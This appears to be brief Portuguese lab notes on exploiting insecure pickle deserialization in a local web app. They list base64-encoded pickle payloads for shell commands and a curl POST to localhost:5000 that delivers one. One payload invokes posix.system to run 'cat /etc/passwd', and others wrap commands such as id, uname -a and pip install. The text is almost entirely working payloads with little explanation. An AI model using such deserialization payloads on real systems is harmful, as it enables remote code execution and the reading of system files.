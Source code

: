 É necessário encodar o payload usando pic

`cat /etc/passwd`
input (print no sistema): gASVKgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjA9jYXQgL2V0Yy9wYXNzd2SUhZRSlC4=
ou (print no site):       gASVKgAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjA9jYXQgL2V0Yy9wYXNzd2SUhZRSlC4=

```bash
curl -X POST http://localhost:5000/ \
     -d "data=gASVKgAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjA9jYXQgL2V0Yy9wYXNzd2SUhZRSlC4="
```

`uname -a`
gASVIwAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjAh1bmFtZSAtYZSFlFKULg==

`id`
gASVHQAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjAJpZJSFlFKULg==

`ls -la`
gASVIQAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjAZscyAtbGGUhZRSlC4=

`pwd`
gASVHgAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjANwd2SUhZRSlC4=

`pip install pandas` gASVLQAAAAAAAACMCGJ1aWx0aW5zlIwDc3RylJOUjBJwaXAgaW5zdGFsbCBwYW5kYXOUhZRSlC4=